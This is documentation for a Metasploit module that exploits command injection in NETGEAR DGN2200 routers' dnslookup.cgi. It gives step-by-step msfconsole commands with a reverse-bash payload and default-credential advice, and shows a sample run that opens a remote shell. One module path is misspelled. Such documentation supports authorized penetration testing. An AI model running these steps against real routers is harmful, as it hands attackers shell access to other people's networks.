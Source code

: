 ## Vulnerable Application

  NETGEAR DGN2200v1, DGN2200v2, DGN2200v3, DGN2200v4 routers

## Verification Steps

  1. start `msfconsole`
  2. `use exploit/linux/http/netger_dnslookup_cmd_exec`
  3. `set RHOST 192.168.1.1` `<--- Router IP`
  4. `set USERNAME xxxx` (see [here](https://github.com/thecarterb/metasploit-framework/blob/ng_dns_cmd_exec-dev/documentation/modules/exploit/linux/http/netgear_dnslookup_cmd_exec.md#options))
  5. `set PASSWORD xxxx` (see [here](https://github.com/thecarterb/metasploit-framework/blob/ng_dns_cmd_exec-dev/documentation/modules/exploit/linux/http/netgear_dnslookup_cmd_exec.md#options))
  5. `set PAYLOAD cmd/unix/reverse_bash`
  6. `set LHOST 192.168.1.x`
  7. `set LPORT xxxx`
  8. `run`
  9. Get a session

## Options

  **USERNAME**

  The `USERNAME` option sets the username to authenticate the request with.
  The command injection will __not__ succeed if the username and password are not correct.
  The default username for NETGEAR Routers is `admin`. If you don't know the credentials,
  your best bet will be to use the default username and password.
  
  
  **PASSWORD**
  
  The `PASSWORD`options sets the password to authenticate the request with.
  The command injection will __not__ succeed if the username and password are not correct.
  The default password for NETGEAR Routers is `password`. If you don't know the credentials,
  your best bet will be to use the default username and password.
  
## Advanced Options
  
  **HOSTNAME**
  
  The request is went with a `host_name` POST parameter. This option sets this parameter. 
  The default is `www.google.com`. The reason for the parameter is that the file that this
  vulnerability is located in (`dnslookup.cgi`) actually needs a domain to resolve, or else 
  the injection won't work.
  

## Scenarios

  What it should look like against a vulnerable router.

  ```
msf > use exploit/linux/http/netgear_dnslookup_cmd_exec 
msf exploit(netgear_dnslookup_cmd_exec) > options

Module options (exploit/linux/http/netgear_dnslookup_cmd_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password to authenticate with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                      yes       The target address
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME                   yes       Username to authenticate with
   VHOST                      no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   NETGEAR DDGN2200 Router


msf exploit(netgear_dnslookup_cmd_exec) > set RHOST 192.168.1.1
RHOST => 192.168.1.1
msf exploit(netgear_dnslookup_cmd_exec) > set USERNAME admin
USERNAME => admin
msf exploit(netgear_dnslookup_cmd_exec) > set PASSWORD password
PASSWORD => password
msf exploit(netgear_dnslookup_cmd_exec) > run

[*] Started reverse TCP double handler on 192.168.1.9:4444 
[+] Router is a NETGEAR router (DGN2200v1)
[*] Sending payload...
[*] Command shell session 1 opened (192.168.1.9:4444 -> 192.168.1.9:53352) at 2017-03-02 19:36:47 -0500
```
  
